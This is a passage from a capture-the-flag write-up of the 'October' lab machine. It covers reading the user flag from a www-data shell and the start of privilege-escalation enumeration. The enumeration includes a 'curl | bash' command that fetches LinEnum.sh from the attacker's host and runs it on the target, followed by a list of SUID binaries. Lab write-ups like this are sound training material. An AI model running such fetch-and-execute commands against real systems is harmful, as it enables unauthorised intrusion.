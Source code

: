     www-data@october:/var/www/html/cms/storage/app/media$
    

From here, I can also grab `user.txt`:

    
    
    www-data@october:/home/harry$ cat user.txt 
    29161ca8...
    

## Privesc to root

### Enumeration

I’ll use [LinEnum.sh](https://github.com/rebootuser/LinEnum) to run basic
enumeration across the host. I like to run with thorough tests, so either with
`-t`, or just by adding `thorough=1` to the source.

I’ll service it with `python3 -m http.server 80`, and then get it from target:

    
    
    www-data@october:/home/harry$ curl -s http://10.10.14.14/LinEnum.sh | bash
    
    #########################################################
    # Local Linux Enumeration & Privilege Escalation Script #
    #########################################################
    # www.rebootuser.com
    # version 0.95
    
    [-] Debug Info
    [+] Thorough tests = Enabled
    
    
    Scan started at:
    Sat Mar  9 14:34:48 EET 2019
    
    
    ### SYSTEM ##############################################
    [-] Kernel information:
    Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 i686 i686 GNU/Linux
    ...[snip]...
    [-] SUID files:
    -rwsr-xr-x 1 root root 67704 Nov 24  2016 /bin/umount
    -rwsr-xr-x 1 root root 38932 May  8  2014 /bin/ping
    -rwsr-xr-x 1 root root 30112 May 15  2015 /bin/fusermount
    -rwsr-xr-x 1 root root 35300 May 17  2017 /bin/su
    -rwsr-xr-x 1 root root 43316 May  8  2014 /bin/ping6
    -rwsr-xr-x 1 root root 88752 Nov 24  2016 /bin/mount
    -rwsr-xr-x 1 root root 5480 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 492972 Aug 11  2016 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 9808 Nov 24  2015 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-- 1 root messagebus 333952 Dec  7  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 156708 Oct 14  2016 /usr/bin/sudo
    -rwsr-xr-x 1 root root 30984 May 17  2017 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 18168 Nov 24  2015 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd
    -rwsr-xr-x 1 root root 44620 May 17  2017 /usr/bin/chfn
    -rwsr-xr-x 1 root root 66284 May 17  2017 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 18136 May  8  2014 /usr/bin/traceroute6.iputils
    -rwsr-xr-x 1 root root 72860 Oct 21  2013 /usr/bin/mtr
    -rwsr-xr-x 1 root root 35916 May 17  2017 /usr/bin/chsh
    -rwsr-sr-x 1 daemon daemon 46652 Oct 21  2013 /usr/bin/at